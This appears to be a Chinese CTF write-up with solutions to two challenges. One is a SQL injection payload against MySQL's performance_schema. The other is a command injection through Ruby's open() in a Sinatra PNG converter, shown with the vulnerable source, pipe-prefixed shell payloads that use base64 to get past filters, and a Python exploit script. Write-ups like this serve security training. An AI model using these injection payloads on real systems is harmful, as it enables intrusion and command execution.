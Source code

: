 https://mp.weixin.qq.com/s/pkaHI8I5Fe6JtpHcGKYN_g

## yet_another_mysql_injection

```
1'union/**/select/**/mid(`11`,65,217)/**/from(select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17/**/union/**/select/**/*/**/from/**/performance_schema.threads/**/where/**/name/**/like'%connection%'/**/limit/**/1,1)t#
```




## PNG 图片转换器

题目

```ruby
require 'sinatra'
require 'digest'
require 'base64'

get '/' do
  open("./view/index.html", 'r').read()
end

get '/upload' do
  open("./view/upload.html", 'r').read()
end

post '/upload' do
  unless params[:file] && params[:file][:tempfile] && params[:file][:filename] && params[:file][:filename].split('.')[-1] == 'png'
    return "<script>alert('error');location.href='/upload';</script>"
  end
  begin
    filename = Digest::MD5.hexdigest(Time.now.to_i.to_s + params[:file][:filename]) + '.png'
    open(filename, 'wb') { |f|
      f.write open(params[:file][:tempfile],'r').read()
    }
    "Upload success, file stored at #{filename}"
  rescue
    'something wrong'
  end

end

get '/convert' do
  open("./view/convert.html", 'r').read()
end

post '/convert' do
  begin
    unless params['file']
      return "<script>alert('error');location.href='/convert';</script>"
    end

    file = params['file']
    unless file.index('..') == nil && file.index('/') == nil && file =~ /^(.+)\.png$/
      return "<script>alert('dont hack me');</script>"
    end
    res = open(file, 'r').read()
    headers 'Content-Type' => "text/html; charset=utf-8"
    "var img = document.createElement(\"img\");\nimg.src= \"data:image/png;base64," + Base64.encode64(res).gsub(/\s*/, '') + "\";\n"
  rescue
    'something wrong'
  end
end
```

`res = open(file, 'r').read()`

这里使用了 open()函数来打开可控制 file 参数传入的文件名。而 ruby 中的 open()函数是借用系统命令来打开文件，且没用过滤 shell 字符，导致在用户控制文件名的情况下，将可以注入任意命令。

源码中会将 open()执行过后的结果 base64 编码后返回，加上 file 参数处有些过滤和必须以.png 结尾的限制；即可构造

`file=|whoami > test.png`

接下来绕过..、/即可，直接利用 base64 编码绕过

`file=|echo "bHMgLWxoYSAv"|base64 -d|bash > test.png`

```python
from base64 import b64decode, b64encode
from requests_html import HTMLSession

url = 'http://1116-44e7e228-9736-404c.nss.ctfer.vip:9080/convert'

s = HTMLSession()
cmd = 'find / -name "flag*"'
cmd = b64encode(cmd.encode()).decode()

d = {"file": f"""|echo "{cmd}"|base64 -d|bash > test.png"""}
s.post(url, d)

res = s.post(url, {"file": "test.png"})
a,b = res.text.split('base64,')
print(b64decode(b.encode()).decode())
```
